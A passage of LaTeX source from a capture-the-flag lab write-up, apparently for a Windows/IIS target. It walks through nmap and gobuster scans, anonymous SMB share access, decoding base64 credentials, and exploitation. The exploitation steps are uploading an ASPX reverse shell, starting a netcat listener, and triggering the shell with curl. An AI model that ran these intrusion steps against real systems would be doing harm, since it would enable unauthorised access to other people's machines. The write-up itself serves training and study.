% 	
\includegraphics[width=1\textwidth]{img/midnight.png}
% \end{center}
% \begin{center}
% 	
\includegraphics[width=1\textwidth]{img/rdark.png}
% \end{center}
\underline{The flags used in nmap scan}:
\begin{itemize}
	\item -T4: a timing template with values from 0-5, higher is faster.
	\item -Pn: to skip host discovery as we know host is online
	\item -p-: to scan all 65535 Ports
	\item --min-rate: to set minimun no of packets that are sent.
\end{itemize}
\underline{Inference}:
\begin{itemize}
	\item Port 80: HTTP(Unsecure) website with Microsoft IIS
as backend server as the
it is displaying default webpage of IIS.
	\item Port 135,139,445: An smbserver is hosted. several nmap
scripts scan are used here. The scripts gave useful
information like OS version, NetBIOS name. Message signing is disabled
means only password is enough for authentication
which is bad as it is vulnerable to pass the hash attack.
	\item Port 49663: HTTP website with the same IIS backend server
on this non-standard port.
\end{itemize}
\section{Enumeration}
\subsection{HTTP Sites Enumeration}
Directory enumeration of the found HTTP ports 80 and 49663
with gobuster tool and the wordlists mentioned. I tried
with several wordlists given in the reference.\\
\underline{Gobuster command :}
\begin{lstlisting}[language=bash]
   $ gobuster -u http://10.10.212.187/ -w directory-list-2.3-medium.txt -x aspx,txt,html -t 100
\end{lstlisting}
\underline{The flags used in gobuster scan}:
\begin{itemize}
	\item -u: to specify the url to brute force directories
	\item -w: to specify the wordlist files
	\item -x: extensions to search for
	\item -t: no of concurrent tasks to do
\end{itemize}
\underline{Port 80 :}\\
No interseting directories on this port other than the default
directories.\\
\underline{Port 49663 :}\\
This has a directory named \emph{nt4wrksv}.
\begin{center}
	
\includegraphics[width=1.1\textwidth,height=1.4cm]{img/nt4.png}
\end{center}
\subsection{SMB Share Enumeration}
For this, I have used a tool called \textbf{smbclient} and
also did a vulnerability check by nmap.
I am able to list the files and access them without any authentication.
The smb server allows both read and write permissions for anyone
logging into the server.
Commands used:
\begin{lstlisting}[language=bash]
   $ nmap --script vuln -p 445 10.10.212.187
   $ smbclient -L \\\\10.10.212.187\\
   $ smbclient \\\\10.10.212.187\\nt4wrksv
\end{lstlisting}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/smblist.png}
\end{center}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/smbpass.png}
\end{center}
I get a \emph{passwords.txt} file, which included two base64
encoded credentials. I decoded them back in the following way,
\begin{center}
	
\includegraphics[width=1\textwidth]{img/pass.png}
\end{center}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/blue.png}
\end{center}
The last photo shows that there is a highly critical vulnerability
known famously as the Eternal Blue.
The output also shows that the same folder on the smbshare is also 
the place where http website running at port 49663. So I can
put a reverse shell in the smb share and access it via browser
to trigger it to execute. This way I would be able to run commands
on the target's terminal.
\section{Exploitation}
I have now two methods to get shell on the target machine.
\subsection{Method1: Eternal Blue Exploit}
This is the famous exploit for the SMBv1 protocol and can be exploited with the msfconsole
tool. The exploit makes use of the way Microsoft Windows
handles specially crafted packets and lead to remote code
execution on the target. 
\subsection{Method2: Reverse shell through SMB and Webserver}
For uploading the reverse shell on smbserver, I used this 
shell[\ref{shell}]. The script has an \emph{ip} and 
\emph{port} parameter
which needs to be changed to the attacker machine for the
reverse shell to connect to.
\begin{lstlisting}[language=bash]
  smb:\> put <path_to_reverse_shell>
\end{lstlisting}
\begin{center}
	
\includegraphics[width=1\textwidth,height=7cm]{img/uploadshell.png}
\end{center}
I have set the listening port to 4444.
Starting a netcat listener for the reverse shell to connect to:
\begin{lstlisting}[language=bash]
  $ nc -lnvp 4444
\end{lstlisting}
Now accessing this shell from the website would trigger the 
reverse shell,
\begin{lstlisting}[language=bash]
  $ curl 'http://10.10.212.187:49663/nt4wrksv/shell.aspx'
\end{lstlisting}
\begin{center}
